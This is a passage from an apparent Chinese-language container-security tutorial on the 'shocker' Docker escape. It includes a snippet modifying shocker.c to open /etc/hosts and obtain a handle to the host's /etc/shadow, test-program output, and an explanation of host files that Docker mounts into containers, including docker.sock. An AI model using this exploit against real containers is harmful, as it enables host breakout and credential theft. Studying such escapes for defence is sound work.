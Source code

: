 ```c
        printf(" %02x", fhp->f_handle[j]);
    printf("\n");

    exit(EXIT_SUCCESS);
}
```
编译执行上面的程序可以看到根路径 "/" 的句柄和 POC 定义的一样
```
┌──(kali㉿kali)-[~/containersec]
└─$ ./nametohandleat /   
28
8 1    02 00 00 00 00 00 00 00
```

更改shocker.c中 .dockerinit 文件为 /etc/hosts（这个文件需要和宿主机在同一个挂载的文件系统下，而高版本的.dockerinit已经不在宿主机的文件系统下了），或者其他文件和宿主机同一个目录下的。

```c
	// get a FS reference from something mounted in from outside
	// if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)  <---- 原来的代码
   if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
		die("[-] open");

	if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
		die("[-] Cannot find valid handle!");
```

为了实现容器与宿主机之间的网络通信，Docker 会在容器启动时自动将宿主机的 /etc/hosts 文件挂载到容器内部。这样，容器内部就能够通过主机名访问到宿主机以及宿主机上的其他网络服务

除了 `/etc/hosts` 文件之外，Docker 还会自动挂载一些其他的文件或目录到容器内部，以实现容器与宿主机之间的一些基本功能和通信。这些文件或目录包括但不限于：

1. **/etc/resolv.conf**：用于 DNS 解析的配置文件。Docker 会将宿主机上的 `/etc/resolv.conf` 文件挂载到容器内部，以便容器能够通过 DNS 解析域名。

2. **/etc/hostname**：宿主机的主机名配置文件。Docker 会将宿主机的主机名文件挂载到容器内部，以便容器能够了解宿主机的主机名。

3. **/etc/localtime 或 /etc/timezone**：宿主机的时区配置文件。Docker 会将宿主机的时区文件挂载到容器内部，以便容器能够使用与宿主机相同的时区设置。

4. **/var/run/docker.sock**：Docker 守护进程的 Unix 套接字。如果容器中需要与 Docker 守护进程进行通信（如使用 Docker CLI 或 Docker API），可以将宿主机上的 Docker 套接字挂载到容器内部。

这些文件或目录的自动挂载可以简化容器与宿主机之间的通信和配置，同时也可以确保容器能够访问到宿主机的基本网络和系统配置。

容器内，用 findmnt 可以看到 /etc/resolv.conf、/etc/hostnane、/etc/host 挂载在 /dev/sda1 

```
// 容器内执行 findmnt
root@3c1201415e7d:~# findmnt
TARGET                  SOURCE                                                                          FSTYPE  OPTIONS
/
| ... 
| ...                      
|-/etc/resolv.conf      /dev/sda1[/var/lib/docker/containers/3c1201415e7dcff29ab1d47c80004c77679bc0a6704978585336e9a8c0c1b6c4/resolv.conf]
|                                                                                                       ext4    rw,relatime,errors=remount-ro
|-/etc/hostname         /dev/sda1[/var/lib/docker/containers/3c1201415e7dcff29ab1d47c80004c77679bc0a6704978585336e9a8c0c1b6c4/hostname]
|                                                                                                       ext4    rw,relatime,errors=remount-ro
`-/etc/hosts            /dev/sda1[/var/lib/docker/containers/3c1201415e7dcff29ab1d47c80004c77679bc0a6704978585336e9a8c0c1b6c4/hosts]
                                                                                                        ext4    rw,relatime,errors=remount-ro

```
